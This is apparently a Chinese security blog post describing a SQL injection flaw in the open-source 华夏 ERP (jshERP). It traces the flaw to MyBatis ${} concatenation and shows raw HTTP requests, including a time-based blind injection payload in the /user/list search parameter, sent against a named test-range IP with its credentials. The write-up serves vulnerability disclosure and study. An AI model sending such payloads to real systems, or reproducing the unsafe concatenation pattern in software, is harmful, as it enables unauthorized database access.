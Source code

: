 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/o-lmJHCaCiEqfdG1e_L3Lg)

测试靶场

<table cellspacing="0" cellpadding="0"><tbody><tr><td width="132" valign="top"><p>靶场地址</p></td><td width="421" colspan="2" valign="top"><p>http://47.116.69.14</p></td></tr><tr><td width="132" valign="top"><p>账户密码</p></td><td width="210" valign="top"><p><strong>jsh</strong></p></td><td width="210" valign="top"><p><strong>123456</strong></p></td></tr></tbody></table>

**1、描述**

  

华夏 ERP 基于 SpringBoot 框架和 SaaS 模式，可以算作是国内人气比较高的一款 ERP 项目，但经过源码审计发现其存在多个漏洞，本篇为 SQL 注入漏洞解析。

  

  

  

  

  

**2、影响范围**

  

华夏 ERP  

  

  

  

  

  

**3、漏洞复现**

  

从开源项目本地搭建来进行审计，源码下载地址：

百度网盘 https://pan.baidu.com/s/1jlild9uyGdQ7H2yaMx76zw  提取码: 814g  

  

  

  

  

  

漏洞复现：

1、漏洞代码位置

```
src/main/resources/mapper_xml/UserMapperEx.xml
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8YuSY9mticHm3T872zjEAntcNlordxU2Yfd0uB8jSNAz8qo0bzJsH406w/640?wx_fmt=png)

使用 mybatis 时 ${} 会对参数和 sql 语句进行拼接，因而存在 sql 注入漏洞

2、漏洞验证  

正常查询  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Y53Qlmw7z2fyWv54iaeVETYmGZZH0CibGqWDRYxaiclhkuqLqnjuXFsHZg/640?wx_fmt=png)

```
GET /user/list?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1
Host: 47.116.69.14
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://47.116.69.14/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```

使用 sleep 延时注入

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8YM6rH6hNlXBzGibnH7giaXQ2iblT35Yibl8vJOxVJJ0y4FM3M8t53xY4c4g/640?wx_fmt=png)

```
GET /user/list?search=%7B%22userName%22%3A%22'and+sleep(3)--%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1
Host: 47.116.69.14
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://47.116.69.14/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```

3、漏洞代码

src/main/java/com/jsh/erp/controller/ResourceController.java

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8YrfNG1EjePhr2EofCgGI4U09D9NyWd5uZiafA29ddf5ia44aPUUwxFhcA/640?wx_fmt=png)

src/main/java/com/jsh/erp/service/CommonQueryManager.java

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8YUr2tCy2p8ImULvRia9PaKXaYqT5vn5EptEE9VickRTrAU55pKuoZ0Sug/640?wx_fmt=png)

src/main/java/com/jsh/erp/service/user/UserComponent.java

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8YtiaokDicq8xOicLVddoko6QgfTe0bfJwL2fkP4IAicyPiadtGlc3ulJ4sVg/640?wx_fmt=png)

src/main/java/com/jsh/erp/service/user/UserService.java

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8YFWtiaUibZf3RNP967ic8pxj8j1Oh3jtRlz2ryKAUPGUOmZ7WiaQ5wpjOJA/640?wx_fmt=png)

src/main/resources/mapper_xml/UserMapperEx.xml

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8YAvjiaEsZOptmIpKS1pdoccLo1qjZMMwSa0xQw8bzk816RgmXCmVIibiag/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

公众号

![](https://mmbiz.qpic.cn/mmbiz_png/3pKe8enqDsSibzOy1GzZBhppv9xkibfYXeOiaiaA8qRV6QNITSsAebXibwSVQnwRib6a2T4M8Xfn3MTwTv1PNnsWKoaw/640?wx_fmt=png)

点个在看你最好看